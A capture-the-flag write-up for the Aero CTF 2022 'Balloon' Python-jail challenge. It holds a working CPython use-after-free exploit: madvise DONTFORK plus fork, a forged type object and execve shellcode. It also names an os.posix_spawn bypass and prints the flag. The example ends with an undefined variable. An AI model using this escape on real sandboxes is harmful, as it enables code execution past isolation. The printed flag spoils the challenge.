# Aero CTF 2022 | Pwn | Balloon

# Description

> Do you like Python jails?

# Files

- [public/pwn-balloon.tar.gz](public/pwn-balloon.tar.gz)

# Note

## The challenge contains unintented solution that levels out the entire challenge.

## The author tried to sandbox all `execve()` calls, but failed. The one of possible solution is to use `os.posix_spawn()`. Probably the correct sandbox could be achieved with `seccomp` to block execve entirely, then the challenge makes sense.

## By the way, the intended solution is described below.

# Solution

We need to bypass python's memory checks and do memory corruption.

There are some existing bugs in cpython that works on the latest version:

- [https://github.com/python/cpython/issues/91153](https://github.com/python/cpython/issues/91153) (will be fixed in Python 3.12)

- [https://github.com/python/cpython/issues/60198](https://github.com/python/cpython/issues/60198), here is a [public exploit](https://pwn.win/2022/05/11/python-buffered-reader.html)

The author tried to fix these bugs by removing `memoryview`, `bytearray`, `io.BufferedReader` and `io.BufferedWriter` objects.

The intended solution is based on [mmap](https://man7.org/linux/man-pages/man2/mmap.2.html) and [madvise](https://man7.org/linux/man-pages/man2/madvise.2.html) syscalls. There are a useful parameter for `madvise()`:

```
MADV_DONTFORK (since Linux 2.6.16)
        Do not make the pages in this range available to the child
        after a fork(2).  This is useful to prevent copy-on-write
        semantics from changing the physical location of a page if
        the parent writes to it after a fork(2).  (Such page
        relocations cause problems for hardware that DMAs into the
        page.)
```

It means that if we've set MADV_DONTFORK on a page, this page will not be copied to fork. How to use this?

1. Create a page using `mmap.mmap()`, call `madvise(MADV_DONTFORK)` on this page.

2. Call `os.fork()`. The page will not exists in child, but the object containing the pointer will be copied. So we have got a bad pointer `ptr` in child.

3. Allocate a very long list `list` in child, for example 0x1000 elements. The existing Python's heap are too small for this, so the allocator will call `mmap()` to get more space. The address of a new page will be the same as `ptr`.

4. So `list` and `ptr` point to the same memory, this is use-after-free vulnerability.

5. Create a fake object type with custom `repr()` function that contains a payload. Then create an instance `obj` of this object.

6. Add `obj` to `list` using `ptr`. Then call `repr(list)`.

Example solution:

```python
import os
import time
import mmap

page = mmap.mmap(-1, 0x1000 * 16)
page.madvise(mmap.MADV_DONTFORK)

serialize = lambda x: b''.join(y.to_bytes(8, 'little') for y in x)

if os.fork():
    time.sleep(1)
else:
    array = [0] * 4096 * 25
    page_ptr = id(array) - 0x110940

    obj_type = serialize(
        [
            2, id(type),
            0, id(b'') + 32,
            33, 1,
        ] + [page_ptr] * 32
    )

    obj = serialize(
        [
            2, id(obj_type) + 32,
            0, 1,
        ]
    )

    page[:8] = serialize([id(obj) + 32])

    path = b'/challenge/flag'
    path_ptr = serialize([id(path) + 32])

    # a tiny execve shellcode using `path_ptr` in rdi
    shellcode = b'\x48\x31\xC0\xB0\x3B\x48\xBF' + path_ptr + b'\x48\x31\xF6\x48\x31\xD2\x48\x31\xC9\x0F\x05'
    
    rwx_page = mmap.mmap(-1, 0x1000 * 8, prot = 7)
    rwx_page.write(b'\x90' * 0x1000 * 8)
    rwx_page[-len(shellcode):] = shellcode

    str(a)
```

The challenge limits input's length, so the actual solution is minified.

Example minified solution: [solution/exploit.py](solution/exploit.py)

# Flag

```
Aero{RCE_1n_Pyth0n_1s_d4NG3r0uS_ev3Ry_t1m3}
```
